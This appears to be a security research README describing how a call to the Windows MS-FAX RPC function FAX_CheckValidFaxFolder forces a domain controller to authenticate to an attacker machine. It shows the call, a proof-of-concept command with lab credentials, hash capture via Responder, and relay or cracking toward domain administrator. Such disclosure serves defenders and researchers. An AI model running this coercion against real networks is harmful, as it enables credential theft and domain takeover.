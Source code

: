 # MS-FAX - Remote call to FAX_CheckValidFaxFolder (opnum 86)

## Summary

 - **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

 - **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\SHAREDFAX`

 - **Function name**: [`FAX_CheckValidFaxFolder`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d348202c-d55b-40a9-b346-d6581278ce44)

 - **Function operation number**: `86`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FAX_CheckValidFaxFolder`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d348202c-d55b-40a9-b346-d6581278ce44) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FAX_CheckValidFaxFolder('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FAX_CheckValidFaxFolder(
   [in] handle_t hBinding,
   [in, string, ref] LPCWSTR lpcwstrPath
 );
```

## References

 - Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

 - Documentation of function `FAX_CheckValidFaxFolder`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d348202c-d55b-40a9-b346-d6581278ce44